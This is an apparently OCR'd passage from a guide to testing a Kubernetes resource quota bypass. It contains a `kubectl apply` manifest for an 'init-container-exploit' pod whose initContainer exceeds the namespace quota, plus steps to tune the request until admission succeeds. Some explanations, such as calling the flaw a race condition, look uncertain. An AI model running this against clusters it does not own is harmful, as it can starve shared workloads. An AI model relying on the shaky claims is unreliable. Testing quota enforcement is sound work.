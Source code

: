 **Step 3: Exploitation - Deploying a pod with an `initContainer` exceeding the quota**

```bash
kubectl apply -n test-namespace -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: init-container-exploit
spec:
  initContainers:
  - name: init-exceeds-limits
    image: busybox:latest
    command: ["sh", "-c", "sleep 5"] # Simple command to hold resource
    resources:
      requests:
        cpu: "3"
        memory: "3Gi"
      limits:
        cpu: "5"
        memory: "5Gi"
  containers:
  - name: main-container
    image: nginx:latest
    resources:
      requests:
        cpu: "1"
        memory: "1Gi"
      limits:
        cpu: "2"
        memory: "2Gi"
EOF
```

*   **Explanation:** This creates a pod with an `initContainer` that requests significantly more resources than the resource quota allows, while the main container stays within quota.  The key is to see if the *combined* resources are checked *before* the pod is admitted.  In some older Kubernetes versions, incorrect quota calculation can allow this to succeed. This might require adjustments based on the container runtime and cgroup configurations. Note: This is a race condition.
*   **Expected Output:** Ideally, the pod creation *should* fail due to resource quota violation, but in vulnerable configurations (older Kubernetes versions), the pod might be created. If the pod is created, observe its state with `kubectl describe pod init-container-exploit -n test-namespace`. Check for any resource-related errors or events. Also check resource quota usage using `kubectl describe resourcequota test-quota -n test-namespace`.
*   **Exploitation/Validation:** If the pod is created, this indicates a resource quota bypass vulnerability. This often happens when the resource usage of `initContainers` is not properly accounted for when applying the resource quota. Note that newer versions of Kubernetes have improved resource quota enforcement, reducing the likelihood of this exploit succeeding.  Try different images for `initContainer` if busybox does not allocate the resources as expected.

**Step 4: (If Step 3 Fails) Variation: Smaller initContainer Request**
Try reducing the `initContainer` resource request slowly until the Pod is created.  The exact value will depend on other pods deployed in the namespace.  The goal is to have the *sum* of `initContainer` + `mainContainer` exceed the quota.
